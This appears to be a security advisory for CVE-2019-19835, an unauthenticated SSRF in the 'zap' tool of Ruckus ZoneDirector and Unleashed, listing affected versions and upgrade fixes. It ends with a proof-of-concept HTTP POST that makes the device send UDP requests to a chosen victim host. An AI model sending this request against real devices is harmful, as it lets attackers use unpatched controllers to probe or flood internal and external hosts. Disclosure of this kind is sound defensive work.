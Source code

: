 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'moderate'
alephid: ALEPH-2019005
cve: CVE-2019-19835
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'SSRF vulnerability in zap'

---
```

SSRF vulnerability in zap, caused by insufficient input validation.
`zap` executable is reachable without authentication and can be used to send tcp/udp requests to both internal and external IP addresses.

## Proof Of Concept ##
SSRF POST request example
``` html
POST /tools/_rcmdstat.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
Content-Length: 230

<ajax-request action='docmd' xcmd='wc' updater='system.1568118269965.3208' comp='zapd'>
        <xcmd cmd='wc' comp='zapd' wcid=1 client='192.168.0.1' tool='zap-up' zap-type='udp' server='{victim}' syspmtu=65500 />
</ajax-request>
```
